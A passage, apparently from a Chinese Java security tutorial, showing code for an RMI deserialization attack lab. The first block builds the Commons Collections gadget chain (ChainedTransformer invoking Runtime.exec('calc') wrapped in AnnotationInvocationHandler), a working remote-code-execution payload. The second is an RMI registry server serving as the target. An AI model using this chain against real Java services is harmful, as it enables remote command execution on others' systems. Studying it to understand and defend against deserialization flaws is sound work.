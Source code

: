 ```
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "key");
        Map outmap = TransformedMap.decorate(innermap, null, chain);

        Class T0WN = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = T0WN.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object instance = constructor.newInstance(Retention.class, outmap);

        return instance;
    }
}
```

服务端

```
package RMIunser;

import java.rmi.AlreadyBoundException;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.concurrent.CountDownLatch;

public class Server {

    public static void main(String[] args) throws RemoteException, AlreadyBoundException, InterruptedException, NotBoundException {
        User T0WN = new LocalUser();
        Registry registry = LocateRegistry.createRegistry(1099);
        registry.bind("user",T0WN);
        System.out.println("registry is running...");
        System.out.println("liming is bind in registry");
        CountDownLatch latch=new CountDownLatch(1);
        latch.await();
    }

}
```

